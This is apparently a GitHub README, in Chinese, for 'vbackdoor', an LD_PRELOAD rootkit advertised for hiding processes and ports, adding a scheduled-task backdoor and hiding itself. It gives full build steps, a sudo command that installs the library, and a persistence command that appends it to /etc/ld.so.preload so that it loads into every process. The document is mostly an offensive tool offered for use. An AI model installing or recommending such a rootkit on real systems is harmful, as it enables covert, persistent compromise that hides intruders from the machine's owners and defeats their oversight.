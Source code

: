 # vbackdoor
使用 LD_PRELOAD rootkit 技术进行隐藏进程、隐藏端口、后门添加、自我隐藏

### 编译（使用时修改vbackdoor.c内容）

```
git clone https://github.com/veo/vbackdoor.git
cd vbackdoor
vi vbackdoor.c
make
sudo mv vbackdoor.so /usr/local/lib/
```

或者

```
wget https://raw.githubusercontent.com/veo/vbackdoor/main/vbackdoor.c
vi vbackdoor.c
gcc -Wall -fPIC -shared -o vbackdoor.so vbackdoor.c -ldl
sudo mv vbackdoor.so /usr/local/lib/
```

### 载入后门

```
echo /usr/local/lib/vbackdoor.so >> /etc/ld.so.preload
```




  * 进程隐藏
  * LD_PRELOAD 隐藏
  * 端口隐藏
  * 计时任务后门